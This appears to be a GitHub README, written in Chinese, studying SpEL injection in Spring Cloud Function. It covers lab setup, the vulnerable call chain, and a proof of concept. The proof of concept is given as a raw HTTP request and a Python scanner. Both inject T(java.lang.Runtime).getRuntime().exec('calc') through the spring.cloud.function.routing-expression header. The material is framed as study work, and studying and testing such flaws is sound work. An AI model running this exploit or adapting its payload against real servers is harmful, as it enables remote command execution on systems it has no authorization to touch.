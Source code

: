 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建
IDEA新建spring initializr
![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写
# coding=UTF-8
import requests
import sys
import base64
import urllib3
urllib3.disable_warnings()

def calculator(url,ip,port):

    payload ='T(java.lang.Runtime).getRuntime().exec("calc")'

    data ='jojo'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'

    allurl = url + path
    try:
        req=requests.post(url=allurl,headers=headers,data=data,verify=False,timeout=3)
        code =req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'

        if code == 500 and rsp in text:
            print('{url} 存在漏洞')
        else:
            print('{url} 不存在漏洞')

    except requests.exceptions.RequestException:
        print('[-]{url} 检测超时')
        pass
    except:
        print('[-]{url} 检测异常')
        pass



if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 =sys.argv[2]
        cmd3 =sys.argv[3]
        calculator(cmd1,cmd2,cmd3)
    except:
        print('python jojoSPel.py url ip port')
        pass
